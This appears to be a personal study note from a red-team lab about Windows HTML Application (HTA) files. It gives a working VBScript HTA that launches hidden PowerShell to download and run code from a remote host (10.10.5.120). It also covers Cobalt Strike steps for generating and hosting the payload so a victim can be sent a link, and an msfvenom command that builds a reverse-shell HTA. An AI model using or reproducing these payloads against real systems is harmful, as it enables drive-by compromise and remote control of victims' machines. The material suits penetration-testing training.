 ```yaml
---
creation date: September 22nd 2022
last modified date: September 22nd 2022
aliases: []
tags: #🧰
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #🧰  

# [[HTA (HTML Application)]]  
___

## Description:
An HTA is a proprietary Windows program whose source code consists of HTML and one or more scripting languages supported by Internet Explorer (VBScript and JScript).


An HTA is executed using `mshta.exe`, which is typically installed along with IE. In fact, `mshta` is dependant on IE, so if it has been uninstalled, HTAs will be unable to execute.

## Installation
To create an HTA, open **Visual Studio Code** on the **attacker-windows** VM and create a new empty file. Save the following content to `C:\Payloads\demo.hta
```
<html>
  <head>
    <title>Hello World</title>
  </head>
  <body>
    <h2>Hello World</h2>
    <p>This is an HTA...</p>
  </body>

  <script language="VBScript">
	Function Pwn()
	  Set shell = CreateObject("wscript.Shell")

	  If shell.ExpandEnvironmentStrings("%PROCESSOR_ARCHITECTURE%") = "AMD64" Then
	    shell.run "powershell.exe -nop -w hidden -c ""IEX ((new-object net.webclient).downloadstring('http://10.10.5.120/a'))"""
	  Else
        shell.run "powershell.exe -nop -w hidden -c ""IEX ((new-object net.webclient).downloadstring('http://10.10.5.120:80/b'))"""
	  End If

	End Function

    Pwn
  </script>
</html>


```

In Cobalt Strike, go to **Attacks > Web Drive-by > Scripted Web Delivery (S)** and generate a 64-bit PowerShell payload for your HTTP listener. The URI path can be anything, Type should be powershell. Copy and paste into your HTA (remember to add double quotes around command).

Now create a 32-bit payload for the else statment, add it to your HTA.

Copy/paste this line into the HTA, it should look like this:

`shell.run "powershell.exe -nop -w hidden -c ""IEX ((new-object net.webclient).downloadstring('http://10.10.5.120:80/a'))"""


## Commands


host the HTA on the Team Server so we can simply send a link for them to download and execute. Go to **Attacks > Web drive-by > Host File**. Select **demo.hta** and provide a URI to access it on. 



Run the hta on the victum machine with internet explorer installed to get a beacon.

### msfvenom payload
`sudo msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=4444 -f hta-psh -o /var/www/html/evil.hta`

___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: September 22nd 2022 (02:01 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
